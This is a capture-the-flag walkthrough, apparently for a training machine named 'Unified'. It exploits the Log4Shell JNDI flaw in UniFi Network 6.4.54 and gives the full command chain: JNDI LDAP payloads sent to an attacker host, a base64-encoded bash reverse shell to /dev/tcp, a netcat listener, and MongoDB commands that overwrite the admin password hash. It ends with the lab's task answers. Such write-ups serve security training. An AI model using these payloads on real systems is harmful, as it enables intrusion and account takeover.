

# Unified      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.


Here are the descriptions for the open ports shown in the screenshots:

### **22/tcp (SSH)**
This port is used by the `Secure Shell (SSH) protocol`, which allows for secure remote login and other secure network services over an unsecured network. `SSH` encrypts the session, making it ideal for secure command-line access and file transfers between computers. In this case, the `SSH` service is running `OpenSSH 8.2p1` on an `Ubuntu 4ubuntu0.3` server, providing strong encryption and secure remote management capabilities.

### **6789/tcp (IBM DB2 Admin)**
This port is used by the `IBM DB2 Administration` tool, which is responsible for managing and configuring `IBM's DB2 database management system`. The service allows `administrators` to connect to the `DB2` instance to perform various database management tasks, such as creating databases, managing user privileges, and performing backups. This is a critical port for database management.

### **8080/tcp (HTTP-Proxy)**
This port is typically used by `HTTP proxy` services, which act as intermediaries between a client and a server to forward requests and responses. In this case, the `HTTP proxy` service might be used for managing web traffic or caching requests. The service on this port shows that a proxy might be redirecting requests, but did not follow a specific redirect to another address. `HTTP proxy` services like this are often used for content filtering, web acceleration, and load balancing.

### **8443/tcp (SSL/HTTPS)**
This port is used for secure web traffic via `HTTPS`, which is `HTTP over SSL/TLS`. The service running on this port is related to `Nagios NSCA (Nagios Service Check Acceptor)`, commonly used for receiving passive checks from `Nagios` clients. The `SSL certificate information` reveals that this service is associated with the `UniFi Network`, which is a platform for managing wireless network devices by `Ubiquiti`. The certificate details suggest secure, encrypted communication, protecting the data transmitted over this connection. The server supports methods like GET, HEAD, and POST, indicating it can process various `HTTP` requests securely.

The scan shows that port `8080` is `open` and running an `HTTP proxy`, which `redirects requests` to port `8443`.

After pasting http://{target ip}:8080/ into the browser, we can see website, speaking specifically - login panel.


### Exploration

I pasted into `Google`:

`1`

unifi 6.4.54

and 

`2`

unifi 6.4.54 cve

This site was very useful: https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi


The vulnerability discussed in this article is related to a new discovery in `Ubiquiti's UniFi Network` software, which is similar to the infamous `Log4j vulnerability`. The core issue lies in how the `UniFi software` handles log messages, specifically through the `Java Naming and Directory Interface (JNDI)` in combination with the `Log4j logging library`. Attackers can exploit this vulnerability by injecting specially crafted data into log messages, leading to `remote code execution (RCE)`.

### Burpsuite

The article's `Exploitation` section explains that you need to insert your `payload` into the `remember` parameter. Since the `POST` data is sent as a `JSON` object and the `payload` includes brackets `{}`, you must wrap the payload in quotes to ensure it is treated as a string rather than another `JSON` object.

Let's intercept the `login request`:

Type whatever you want:


`SIGN IN`


Send it to `Repeater` by combination of `Ctrl + R`.

Now we have to modify the `payload`.

The one that is just right for us looks like:

```
"${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}"
```

To make this work, we have to paste it that way:

```
"${jndi:ldap://{your tun0 ip}:1389/{whatever you want}}"
```


Hit `Send`.

Although the output shows an error message stating that the payload is invalid, the payload is actually being executed.

Let's start `tcpdump` on port `389` , which will monitor the network traffic for `LDAP` connections.

`LDAP (Lightweight Directory Access Protocol)` is a protocol used to access and manage directory services, which store information about users, devices, and other resources in a network. It's commonly used for authentication and authorization in systems like `Active Directory`. `LDAP` operates over `TCP/IP`, typically on port `389` for unencrypted communication and port `636` for secure communication via `LDAPS (LDAP over SSL)`. It allows applications to query and modify directory entries, making it essential for managing network resources efficiently.

In the new tab type:

```
sudo tcpdump -i tun0 port 389
```


`-i tun0` - Specifies the network interface to capture traffic on, in this case, `tun0`, which is our VPN tunnel interface.

`port 389` - Filters the captured traffic to only show packets on port `389`, which is commonly used by `LDAP`.

For testing I modified previous `payload`(port from 1389 to 389):

```
"${jndi:ldap://{your tun0 ip}:389/{whatever you want}}"
```

to see the response.


Press `Send`.


The `tcpdump` output shows that our machine is receiving an incoming connection, which confirms that the application `is vulnerable`.

### rogue-jndi

Knowing that, we are going to try and get a `reverse shell` so we can interact with the underlying Linux operating system. First, you need to clone and build the tool, `rogue-jndi` from this `GitHub` repository: https://github.com/veracode-research/rogue-jndi

At first, type:

```
sudo apt install openjdk-11-jdk -y 
```

Then:

```
sudo apt-get install maven
```

Now, just paste in path of your choice this `oneliner`: 

```
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```




After compiling the JAR file, we'll need to create a command to send the `reverse shell`. Since this system doesn't have `Netcat` by default, we'll need to craft a `reverse shell command` and then encode it in `Base64`. Use the provided one-liner to do this:

```
echo 'bash -c bash -i >&/dev/tcp/{your tun0 ip}/{port of your choice} 0>&1' | base64
```


With our `Base64` output, we'll build command in `rogue-jndi`:

```
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo, {your base64 hash}}|{base64,-d}|{bash,-i}" --hostname "{your tun0 ip}"
```


Good.

#### Disclaimer

Remember to execute it from the right path.

### Netcat

Let's open another terminal to capture the `reverse shell`.

Type:

```
nc -lvnp {port you have chosen} 
```


### Execute reverse shell

It is possible to do it by `curl`, as mentioned in `SprocketSecurity` article, but I will use `Burpsuite` instead.

Modify this payload:

```
"${jndi:ldap://{your tun0 ip}:1389/o=tomcat}"
```

And press `Send`.


Nothing happens in `Burp` but in our `netcat` tab we have a `reverse shell`.


If you need, you can stabilize your shell.

```
script /dev/null -c bash
```

Just `paste it` and press `Enter`.

### Get the user flag

The flag is in `/home/michael` path.


### System search

We know from `SprocketSecurity` article that running `MongoDB` database might make it possible for us to extract credentials in order to login to the `administrative panel`.

`MongoDB` is a popular, open-source `NoSQL` database that uses a document-oriented data model to store data in `JSON-like` format, making it highly flexible and scalable. Unlike traditional relational databases that use tables and rows, `MongoDB` stores data in collections and documents, allowing for a more dynamic schema. It is designed to handle large volumes of unstructured or semi-structured data, making it ideal for modern applications that require fast and flexible data management. `MongoDB` supports features like indexing, replication, and sharding, which contribute to its performance and scalability. It is widely used in various industries for web applications, big data, and real-time analytics.

Let's check if it's running:

Type:

```
ps -aux
```


It is.

Now, type:

```
ps -aux | grep mongo
```


Target system on port is `27117`.

We can now use another `payload` from `SprocketSecurity`:

```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```


Admin credentials are there but the `password` is presented as `hash`.

What we’re going to do now is replace the current `password hash` with `our own` hash.

To create new password hash, type in new tab:

```
mkpasswd -m sha-512 {any password you want}
```


And now, in our `reverse shell` tab type:

```
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"{SHA-512 hash of your password}"}})'
```


We can pase this:

```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

to see if password has been updated.


It has.

### Admin panel

Now we can log in as `administrator`.

Go to: http://{target ip}:8080/ and type credentials.


We are in.


`UniFi` includes an option for `SSH Authentication`, which allows you to manage other `Access Points` via `SSH` from a console or terminal. 

Go to `settings` and scroll down to the very end.

Here we have our `SSH Authentication` for `root`.


```
root:NotACrackablePassword4U2022
```

### SSH

In new tab, type:

```
ssh root@{target ip}
```

Paste the `password`.

We are `in`.


### Get the root flag

Root flag is in the `/root` directory.


### Paste the flags


## Answers

### Task-1: Which are the first four open ports?

22,6789,8080,8443

### Task-2: What is the title of the software that is running running on port 8443?

UniFi Network

### Task-3: What is the version of the software that is running?

6.4.54

### Task-4: What is the CVE for the identified vulnerability?

CVE-2021-44228

### Task-5: What protocol does JNDI leverage in the injection?

LDAP

### Task-6: What tool do we use to intercept the traffic, indicating the attack was successful?

tcpdump

### Task-7: What port do we need to inspect intercepted traffic for?

389

### Task-8: What port is the MongoDB service running on?

27117

### Task-9: What is the default database name for UniFi applications?

ace

### Task-10: What is the function we use to enumerate users within the database in MongoDB?

db.admin.find()

### Task-11: What is the function we use to update users within the database in MongoDB?

db.admin.update()

### Task-12: What is the password for the root user?

NotACrackablePassword4U2022

### Submit user flag

Good one.

### Submit root flag

This article is game changer: https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi